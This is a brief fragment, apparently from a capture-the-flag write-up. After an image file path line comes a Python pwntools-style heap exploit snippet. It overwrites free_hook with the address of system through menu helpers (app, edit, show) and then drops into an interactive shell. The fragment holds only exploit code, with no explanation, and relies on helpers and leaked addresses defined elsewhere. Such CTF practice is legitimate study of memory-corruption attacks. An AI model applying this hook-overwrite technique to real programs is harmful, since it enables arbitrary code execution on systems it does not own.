 ```python
app(0,0x10,p64(0)+p64(0x7fffffffffffffff))

app(7,16,p64(free_hook)+p32(0)+p32(0x100))
app(0,16,p64(system))
show(0)
edit(6,0,0)
ia()
```


